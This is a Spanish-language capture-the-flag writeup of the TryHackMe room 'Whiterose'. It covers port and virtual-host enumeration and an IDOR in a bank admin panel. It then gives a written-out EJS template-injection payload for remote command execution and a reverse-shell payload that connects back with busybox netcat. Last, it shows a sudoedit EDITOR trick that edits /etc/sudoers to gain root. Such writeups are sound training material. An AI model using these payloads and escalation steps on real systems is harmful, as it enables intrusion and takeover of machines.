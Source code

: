```yaml
---
layout: ../../../../layouts/Post.astro
title: Whiterose THM Writeup
description: This is a writeup of Whiterose, a TryHackMe room.
publishDate: Martes, 25 de febrero de 2025
author: "s1lentMT"
image: "/assets/blog/whiterose/whiterose-thm.png"
alt: Image of TryHackMe's Whiterose room.
tags: ["Writeup"]
---
```


Se nos indica al principio que el usuario Olivia Cortez con la contraseña olivi8 serán útiles a lo largo de la máquina.

Tras un escaneo de nmap, podemos determinar que los puertos 80 y 22 están abiertos, teniendo así los servicios de SSH y Nginx activos.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), 
Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) 
(94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), 
Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

Las versiones de estos servicios son OpenSSH 7.6p1 Ubuntu 4ubuntu0.7, y nginx/1.14.0 respectivamente.

El sistema operativo de la máquina es Linux.

Al acceder a la web veremos un mensaje de mantenimiento.

![Imagen de la web](/assets/blog/whiterose/img-1.png)

## Enumeración

### Directorios

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

Con esta búsqueda no se ha encontrado nada, por lo tanto paso a hacer enumeración de VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ 
-u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Como vemos, admin llama a la atención, por lo tanto editaremos el archivo /etc/hosts, para poder acceder.

Una vez accedemos, hay un panel de administración.

![Imagen del panel de administración](/assets/blog/whiterose/img-2.png)

Si probamos a usar las credenciales que nos han indicado anteriormente en la sala, obtendremos acceso al panel.

![Imagen de dentro del panel de administración](/assets/blog/whiterose/img-3.png)

Los datos que vemos en el panel están censurados, por lo que no podremos ver el número de teléfono de Tyrell.

Si accedemos a la sección de mensajes, veremos una url con un parámetro interesante. Si lo cambiamos, haremos un IDOR y obtendremos las credenciales de una cuenta de administrador.

Con esto ya podremos obtener el número de teléfono de Tyrell.

Si accedemos al apartado de settings, e interceptamos la request, podremos jugar con los parámetros y ver que podemos producir un error 500 que mostrará una traza interesante:

```log
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Llama la atención el archivo settings.ejs, si buscamos algún tipo de exploit con referencia a esto, podremos vulnerar la máquina.

Y para nuestra suerte, hay un CVE que nos permite ejecutar comandos (RCE) en la máquina.

Con este payload podremos ejecutar el comando "whoami":

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Al poder ejecutar este tipo de comandos, podríamos conseguir una reverse shell, lo que nos permitiría ejecutar comandos directamente en la máquina sin necesidad de interactuar a través de requests.

Con el siguiente payload podremos recibir la conexión en nuestro listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Posteriormente vamos a ver como en nuestro netcat se recibe una conexión, y podremos spawnear una shell con python o de otras maneras:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Si seguimos investigando dentro de los directorios de nuestro servidor, veremos la flag de user.txt:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$ 
```

Para ver que comandos puede ejecutar nuestro usuario, haremos sudo -l y vemos que tenemos permisos para ejecutar sudoedit:

```shell
web@cyprusbank:~/app$ sudo -l     
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

A partir de aquí tenemos que ver como explotar la máquina y aprovecharnos de esto.

Vemos que hay un exploit que podemos hacer que nos permitiría tener privilegios como root:

```shell
export EDITOR="vim -- /etc/sudoers"
```

Esto nos permitirá abrir vim con el fichero /etc/sudoers cuando abramos el archivo /etc/nginx/sites-available/admin.cyprusbank.thm.

Ahora solo nos faltará hacer esto:

```shell
web ALL=(ALL:ALL) ALL
```

Y ya podríamos hacer sudo su sin contraseña necesaria :).

Solo nos faltaría encontrar el archivo root.txt, ver su contenido y ya tenemos nuestra sala terminada.

Esta flag se encontrará dnetro de /root, con un cat ya tendremos nuestra flag.
